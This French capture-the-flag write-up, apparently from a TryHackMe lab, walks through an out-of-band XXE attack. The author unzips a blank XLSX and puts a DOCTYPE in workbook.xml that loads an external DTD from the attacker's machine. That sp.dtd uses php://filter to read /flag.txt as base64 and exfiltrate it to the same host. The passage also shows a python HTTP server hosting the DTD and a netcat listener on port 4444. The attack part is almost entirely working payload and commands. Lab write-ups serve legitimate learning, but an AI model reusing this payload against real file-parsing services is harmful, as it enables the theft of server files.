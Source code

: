 On créer un fichier xlsx vide et on le décompresse.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/xlsx/xl$ cat workbook.xml | head -8
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % sp SYSTEM "http://10.9.228.66:8000/sp.dtd">
%sp;
%param3;
%exfil;
]>
```

On remplace la permière ligne de workbook.xml dans xl, par le code ci-dessus.   
Il permet d'exécuter la charge utile qui est situé sur notre machine.    

```bash
tim@kali:~/Bureau/tryhackme/write-up/xlsx$ zip -r  test.xlsx .
  adding: [Content_Types].xml (deflated 73%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 38%)
  adding: docProps/core.xml (deflated 48%)
  adding: xl/ (stored 0%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 56%)
  adding: xl/workbook.xml (deflated 41%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 54%)
  adding: xl/.workbook.xml.swp (deflated 93%)
  adding: xl/styles.xml (deflated 86%)

```

On recompresse le fichier.   

On crée le charge utile sp.dtd     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat sp.dtd 
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'http://10.9.228.66:4444/%file;'>">
```

On crée le fichier.   
Notre charge le le fichier flag.txt, l'encode en base64, puis envoie le résultat sur notre serveur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

On lance un serveur pour la récupération du fichier sp.dtd.    

```bash
tim@kali:~$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
